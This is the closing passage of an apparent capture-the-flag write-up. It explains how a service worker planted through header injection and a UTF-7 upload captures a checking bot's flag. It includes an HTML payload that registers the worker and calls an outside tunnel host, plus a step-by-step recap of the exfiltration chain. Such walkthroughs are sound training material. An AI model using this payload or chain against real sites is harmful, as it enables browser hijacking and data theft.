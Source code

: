 ```python3
    )

```

Then, to install the service worker, the real URL the bot visits is the HTML that installs the service worker. 
For this code, you need to change the UUID with the one from the service worker, but the code would be something like: 
```html
<html><script>navigator.serviceWorker.register('/792b1683-6688-4467-ada4-a894ad9f8f8d').then(()=>{fetch("https://montibus.serveo.net/?done")})</script></html>
```



## Solution - Recap

![solution](posts/gigaupload/solution.svg)

- (1) Upload Service Worker code using Header Injection and UTF-7, plus changing `Content-type` to `javascript`.
- (2) Upload html that installs the Service Worker.
- (3) Bot visits the flag to check that exists.
- (4) Visits our URL that installs the Service Worker.
- (5) The Service Worker is installed on the bot browser profile.
- (6) After submitting any url, the bot before visiting the url checks the flag same as before.
- (7) When visiting the flag, the Service Worker appears and exfiltrate the flag to our server.
- (8) We receive the flag UUID, so, just `curl` it and submit the flag.


![flag](posts/gigaupload/flag.png)
